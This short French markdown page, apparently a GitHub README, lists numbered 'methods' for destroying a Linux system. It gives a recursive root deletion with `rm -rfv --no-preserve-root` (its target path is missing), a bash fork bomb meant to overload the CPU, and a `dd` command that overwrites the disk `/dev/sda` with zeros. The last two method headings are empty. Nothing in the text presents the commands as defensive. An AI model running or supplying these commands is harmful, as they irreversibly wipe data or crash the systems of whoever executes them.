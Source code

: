 # Méthode 1

Pour la première méthode il suffit simplement de supprimer tout les fichiers du système avec cette commande.
`sudo rm -rfv --no-preserve-root `

# Méthode 2
Pour la deuxième méthode nous allons faire un programme qui créer des copies de lui même et ce a l'infini jusqu'à surcharger le CPU.
`: ( ) { : | : & } ; :`  

# Méthode 3
Cette méthode consiste à remplir le disque dur de zéro. 
`sudo dd if=/dev/zero of=/dev/sda`

# Méthode 4



# Méthode 5


